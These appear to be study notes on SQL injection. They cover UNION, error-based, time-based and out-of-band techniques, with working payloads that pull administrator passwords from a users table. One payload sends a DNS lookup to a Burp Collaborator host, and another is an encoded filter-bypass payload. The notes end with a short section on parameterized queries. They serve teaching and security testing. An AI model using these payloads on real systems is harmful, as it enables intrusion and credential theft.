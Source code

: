 
# SQL Injection (SQLI) Notes

## What is SQL Injection (SQLI)?
- A web security vulnerability that alters the main query sent from an application to the database.
- Allows attackers to access unauthorized data.
- Often occurs in the WHERE clause of SELECT queries.
- Can escalate to compromise the server, such as gaining administrator access.

## Basic SQLI
- Utilizes single quotes (`'`) to probe for anomalous responses.
- Boolean conditions employed: `OR 1=1`, `OR 1=2` (FALSE), `OR 'a' = 'b'` (making it TRUE).

## SQLI UNION Attacks
- Exploits applications vulnerable to SQLI to retrieve data from different tables using `UNION`.
- `UNION` combines the results of two or more SELECT queries.
- Requirements:
  - Both queries must return the same number of columns.
  - Data types must be compatible.
- Techniques for determining the number of columns:
  - Increment the `ORDER BY` clause until an error occurs (e.g., `ORDER BY 1--`, `ORDER BY 2--`).
  - Use `UNION SELECT` with varying numbers of NULLs.

## Oracle SQLI
- The `SELECT` query must include the `FROM` keyword.
- Utilizes the built-in table "dual" (e.g., `' UNION SELECT NULL FROM DUAL--`).
- Combines column values with a delimiter for queries returning single column values (e.g., `' UNION SELECT username || '~' || password FROM users--`).

## MySQL SQLI
- Comments require a space after `--`.
- The `#` character can also denote a comment.
- Identifying columns with useful data types:
  - Use `UNION SELECT` payloads to test for string-type columns.

## Blind SQLI
- Occurs when the application is vulnerable to SQLI but the HTTP response does not contain the query result.
- Allows attackers to infer information based on differing server responses.
- Ineffective with UNION attacks.

## Error-Based SQLI
- Utilizes errors to extract or infer sensitive data.
- Effectiveness varies with Boolean conditions.
- Examples:
  - `' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a`
  - `'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`
- Can extract data through verbose SQL errors.
- Uses the `CAST()` function to convert data types and bypass conditional response prevention.
- Working examples that return data through error messages:
  - `' AND 1=CAST((SELECT username FROM users LIMIT 1)AS INT)—`
  - `' AND 1=CAST((SELECT password FROM users LIMIT 1)AS INT)—`

## Time-based SQLI
- Tests server response time to infer SQLI presence, especially useful if the database handles query errors robustly.
- Database-specific queries.
- Examples:
  - `'; IF (1=2) WAITFOR DELAY '0:0:10'—` (no time delay, true condition)
  - `'; IF (1=1) WAITFOR DELAY '0:0:10'--` (time delay, false condition)
- Working example:
  - `';SELECT+CASE+WHEN+(username='administrator' AND SUBSTRING(password,20,1)='§a§')+THEN+pg_sleep(5)+ELSE+pg_sleep(0)+END FROM users—`

## OAST SQLI (Out-of-band Application Security Testing)
- A form of Blind SQLI that makes the server interact with a system under the attacker's control, often via DNS.
- Uses tools like Burp Collaborator for network interaction detection.
- Examples:
  - `'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'—` (DNS lookup on a specific domain)
  - Using UNION and XXE for DNS lookups on collaborator subdomains.
  - SQLI in OAST to leak data, with the leaked data being part of the subdomain name.

## Bypassing SQLI Filters
- Using the hackvector extension in Burp Suite to encode payloads for XML WAP bypass.
- Example: `<@dec_entities>1 UNION SELECT username || '~' || password FROM users;<@/dec_entities>`

## Checking Database Version
- MySQL: `SELECT @@version`
- Oracle: `SELECT * FROM v$version`
- PostgreSQL: `SELECT version()`

## SQLI Prevention:
- Illustrates how code is vulnerable to SQLI and how to prevent it by parameterizing the query.
- Highlights the importance of not allowing user input to interfere with the SQL query structure.
- Emphasizes best practices like input whitelisting, logical separation, and constant hard-coding.
- The following code is vulnerable to SQLI due to direct execution of user input by having it directly concatenated into the query
  - String query = "SELECT * FROM products WHERE category = '"+ input + "'";
  - Statement statement = connection.createStatement();
  - ResultSet resultSet = statement.executeQuery(query);


